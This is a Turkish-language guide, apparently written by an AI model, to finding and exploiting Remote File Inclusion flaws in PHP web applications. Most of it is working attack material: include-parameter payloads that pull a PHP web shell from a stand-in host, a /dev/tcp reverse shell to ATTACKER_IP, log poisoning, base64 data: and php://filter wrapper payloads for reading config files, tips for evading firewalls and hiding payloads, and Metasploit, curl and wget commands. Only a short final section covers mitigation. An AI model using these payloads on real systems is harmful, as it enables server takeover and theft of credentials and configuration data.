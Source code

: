 ### RFI (Remote File Inclusion) Zafiyetini Tespit Etme ve İstismar Etme Rehberi

#### 1. **RFI Nedir?**
Remote File Inclusion, bir web uygulamasının kullanıcı tarafından sağlanan girdileri doğrulamadan dahil etmesiyle oluşan bir güvenlik açığıdır. Bu durum, saldırganın uzaktan barındırdığı bir dosyayı hedef sunucuda çalıştırmasına olanak tanır. Genellikle PHP tabanlı uygulamalarda görülür.

---

### **RFI Tespiti**

#### 1.1. **Zafiyetin Olabileceği Parametreleri Belirleme**
RFI zafiyetleri genellikle şu tür parametrelerde bulunur:
- `page`, `file`, `template`, `include`, `url` gibi adlandırmalar.
- Örnek:  
  ```php
  <?php include($_GET['page']); ?>
  ```

#### 1.2. **Parametrelerin Test Edilmesi**
Zafiyet olup olmadığını anlamak için şu payload'lar kullanılabilir:

- **Yerel Dosya Testi**  
  ```
  http://target.com/index.php?page=/etc/passwd
  http://target.com/index.php?page=../../../../etc/passwd
  ```

- **Uzaktan Dosya Testi**  
  ```
  http://target.com/index.php?page=http://malicious.com/shell.txt
  http://target.com/index.php?page=https://raw.githubusercontent.com/user/repo/master/shell.php
  ```

#### 1.3. **HTTP Yanıt Kodlarını ve Çıktısını Kontrol Etme**
- HTTP yanıtında aşağıdaki belirtilere dikkat edin:
  - Hedef dosyanın içeriği yükleniyorsa (örneğin `/etc/passwd` çıktısı).
  - PHP hata mesajları (`Warning: include()` veya `Warning: require()`).
  - Yanıt içeriğinde uzak dosyadan alınmış bir çıktı.

#### 1.4. **Manuel Test Araçları**
- **Burp Suite:** Proxy yardımıyla parametrelerin manipüle edilmesi.  
- **WFuzz:** Parametre fuzzing işlemi için.  
  ```
  wfuzz -c -z file,param-list.txt --hc 404 http://target.com/index.php?page=FUZZ
  ```

- **Dirbuster veya Gobuster:** Hedef URL üzerindeki dosya ve parametre dizinlerini keşfetmek için.

---

### **RFI İstismarı**

#### 2.1. **Basit Shell Yükleme**
RFI, uzaktaki bir dosyayı çalıştırdığı için kötü amaçlı bir PHP dosyasını hedefe yükleyebilirsiniz:

- **Payload Örneği:**
  ```php
  <?php system($_GET['cmd']); ?>
  ```
  - Barındırma: `http://malicious.com/shell.txt` üzerinde.

- **Kullanım:**
  ```
  http://target.com/index.php?page=http://malicious.com/shell.txt&cmd=id
  ```

#### 2.2. **Reverse Shell Kullanımı**
RFI üzerinden hedef sunucuda bir reverse shell açmak için:
- **Reverse Shell Scripti:**
  ```php
  <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1'"); ?>
  ```
- Hedef:
  ```
  http://target.com/index.php?page=http://malicious.com/revshell.php
  ```

#### 2.3. **Yerel Dosyaların Kötüye Kullanımı**
RFI zafiyeti, yalnızca yerel dosyaları içerebiliyorsa, aşağıdaki dosyalardan faydalanabilirsiniz:
- **/etc/passwd**: Kullanıcı bilgileri.
- **/var/www/html/config.php**: Web uygulaması yapılandırma dosyaları.
- **Log Dosyaları**: LFI ile erişilebilir dosyalardan faydalanarak bir web shell enjekte edilebilir.

#### 2.4. **Log Poisoning ile İstismar**
RFI yerine LFI var ancak uzaktan dosya dahil edilemiyorsa, log poisoning yapılabilir:
1. **Log Poisoning:**
   ```
   http://target.com/index.php?page=/var/log/apache2/access.log
   ```
   - Tarayıcı User-Agent veya Referer kısmına bir payload enjekte edin:
     ```
     <?php system($_GET['cmd']); ?>
     ```

---

### **Metod ve Trick'ler**

#### 3.1. **PHP Wrappers Kullanımı**
PHP'nin çeşitli wrapper'ları RFI veya LFI'yi istismar etmek için kullanılabilir:
- **Base64 ile Kullanım:**
  ```
  http://target.com/index.php?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
  ```
  (Base64 kodlanmış bir PHP scripti.)

- **Filter Wrapper:**
  ```
  http://target.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
  ```

#### 3.2. **Firewall Atlatma**
- Eğer hedef sunucuda dış bağlantılar kısıtlanmışsa, DNS tabanlı veri sızdırma teknikleri kullanılabilir:
  - **Payload:**
    ```
    http://target.com/index.php?page=http://attacker.com/shell.txt
    ```
  - `attacker.com` DNS logları üzerinden veri toplanabilir.

#### 3.3. **Payload Gizleme**
- URL encode:
  ```
  http://target.com/index.php?page=http%3A%2F%2Fmalicious.com%2Fshell.txt
  ```

---

### **Kullanışlı Araçlar**

1. **Web Application Scanners**
   - OWASP ZAP
   - Burp Suite (Active Scan)
   - Nikto

2. **Exploit Frameworks**
   - Metasploit Framework
     ```
     use exploit/unix/webapp/php_include
     set RHOST target.com
     set TARGETURI /index.php?page=
     ```

3. **Manual Tools**
   - curl:
     ```
     curl "http://target.com/index.php?page=http://malicious.com/shell.txt"
     ```

   - wget:
     ```
     wget "http://target.com/index.php?page=http://malicious.com/shell.txt"
     ```

---

### **Zafiyetin Kapatılması**

#### 4.1. **Kod Güvenliği**
- Kullanıcı girdilerini doğrulayın ve temizleyin.
- Sabit bir dosya listesi kullanın:
  ```php
  $allowed_pages = array('home', 'about', 'contact');
  if (in_array($_GET['page'], $allowed_pages)) {
      include($_GET['page'] . '.php');
  } else {
      die("Unauthorized access!");
  }
  ```

#### 4.2. **Konfigürasyon Güvenliği**
- `allow_url_include` ve `allow_url_fopen` direktiflerini `php.ini` dosyasında devre dışı bırakın:
  ```
  allow_url_include = Off
  allow_url_fopen = Off
  ```

---

Bu rehber, RFI zafiyetlerini tespit etmek ve istismar etmek için teknik ve metodik bir bakış sağlar. Daha fazla detay için özel senaryolarınızı paylaşabilirsiniz. 😊
